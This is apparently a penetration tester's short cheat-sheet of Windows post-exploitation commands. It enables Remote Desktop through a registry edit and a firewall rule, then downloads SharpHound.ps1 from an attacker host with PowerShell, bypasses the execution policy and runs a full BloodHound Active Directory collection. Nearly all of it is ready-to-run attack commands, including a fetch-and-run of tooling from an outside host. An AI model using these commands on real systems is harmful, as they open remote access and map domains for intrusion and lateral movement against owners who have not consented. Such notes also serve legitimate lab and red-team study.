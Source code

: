 Windows: 

### open firewall
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

### Bloodhound 

.\Sharphoun.exe -c all,group 

PS C:\Users\marcus> iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1

PS C:\Users\marcus> powershell -ep bypass

PS C:\Users\marcus> . .\SharpHound.ps1

PS C:\Users\marcus> Invoke-BloodHound -CollectionMethod All
